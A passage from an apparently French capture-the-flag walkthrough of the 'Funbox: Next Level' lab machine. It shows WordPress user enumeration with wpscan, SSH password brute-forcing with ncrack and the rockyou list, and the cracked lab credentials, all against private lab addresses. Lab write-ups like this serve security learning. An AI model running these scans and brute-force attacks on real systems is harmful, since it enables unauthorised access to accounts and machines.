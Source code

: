 Je peux configurer Firefox pour l'utiliser et je vois un billet nommé "Ben Aflag" avec le texte suivant :

> Welcome to Funbox: Next Level
> 
> flag(RnJvbSBub3cgb24sIHlvdSBrbmV3IGFib3V0IG1lIHdpdGhvdXQgYSAiZHJvb3BzY2FuIg==)

Soit une fois décodé :

```
From now on, you knew about me without a "droopscan"
```

Je lance ensuite `wpscan` pour qu'il utilise `mitmproxy` :

```bash
docker run -it --rm wpscanteam/wpscan --proxy http://192.168.56.1:8080/ --url http://192.168.56.124/drupal/ -e ap,at,u --plugins-detection aggressive
```

On n'apprend pas grand-chose, mis à part qu'il s'agit de `WordPress 5.5.1` et que deux utilisateurs sont présents ; infos qu'on pouvait avoir via le navigateur :

```console
[+] ben
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Mais nous sommes parvenus à faire tourner `wpscan` dans ces conditions et c'est déjà un exploit :)

### MailBox

À ce stade, faut-il brute-forcer Wordpress ou SSH ? J'ai opté pour le dernier :

```console
$ ncrack -f -u ben -P wordlists/rockyou.txt ssh://192.168.56.124

Starting Ncrack 0.8 ( http://ncrack.org )

Discovered credentials for ssh on 192.168.56.124 22/tcp:
192.168.56.124 22/tcp ssh: 'ben' 'pookie'

Ncrack done: 1 service scanned in 58.21 seconds.

Ncrack finished.
```

Une fois connecté avec SSH, on découvre assez vite une petite "surprise" :

```console
$ ssh ben@192.168.56.124
ben@192.168.56.124's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-189-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


0 packages can be updated.
0 updates are security updates.


You have mail.
Last login: Tue Sep  1 22:14:28 2020 from 192.168.178.143
```